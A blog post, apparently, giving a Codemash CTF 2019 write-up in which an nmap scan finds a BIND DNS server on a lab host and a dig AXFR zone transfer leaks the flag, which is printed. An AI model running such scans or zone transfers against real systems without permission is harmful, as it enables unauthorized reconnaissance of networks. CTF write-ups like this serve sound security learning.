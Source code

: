 ```yaml
---
layout: post
status: publish
published: true
title: Codemash CTF 2019 - Danger Zone
author:
  display_name: John Koerner
  login: admin
  email: blog@johnkoerner.net
  url: ''
author_email: blog@johnkoerner.net
categories:
- codemash
tags:
- codemash
- fun
---
```


Clue
---
Can you enter the danger.zone, and find the flag?

Service listening on:

`whale.hacking-lab.com:5553`

Note: this is NOT about the web site danger.zone!

Hint
---
Find out what service is listening on the port. nmap could be helpful for this kind of fingerprinting.


Approach
---
This challenge was all about finding the right tools and getting the command line args right. As the hint suggests, we can use `nmap` to scan that port to get more information.

```
nmap -p 5553 -T4 -A -v whale.hacking-lab.com
```

Yields the output (truncated for brevity):
```
PORT     STATE SERVICE VERSION

5553/tcp open  domain  ISC BIND 9.9.5 (Debian Linux 8.0 (Jessie))

```

The command tells us that BIND (DNS) is running on that port. Now the `zone` portion of the clue makes sense, since zones are a DNS concept. We can now use `dig` to see what we can find out.  I attempted a zone transfer and got the following:

```
dig AXFR danger.zone @whale.hacking-lab.com -p5553
```

```
; <<>> DiG 9.11.3-1ubuntu1.1-Ubuntu <<>> AXFR danger.zone @whale.hacking-lab.com -p5553
;; global options: +cmd
danger.zone.            604800  IN      SOA     danger.zone. admin.danger.zone.danger.zone. 2 604800 86400 2419200 604800
danger.zone.            604800  IN      NS      ns.danger.zone.
cm19-d4ng-rwil-lrob-Insn.danger.zone. 604800 IN A 10.0.13.37
ns.danger.zone.         604800  IN      A       10.0.0.2
danger.zone.            604800  IN      SOA     danger.zone. admin.danger.zone.danger.zone. 2 604800 86400 2419200 604800
;; Query time: 161 msec
;; SERVER: 80.74.140.188#5553(80.74.140.188)
;; WHEN: Fri Jan 11 23:26:24 STD 2019
;; XFR size: 5 records (messages 1, bytes 193)
```

Here is our flag:
```
cm19-d4ng-rwil-lrob-Insn
```

[Return to the full breakdown of the Codemash CTF](/codemash/codemash-ctf-breakdown-2019/)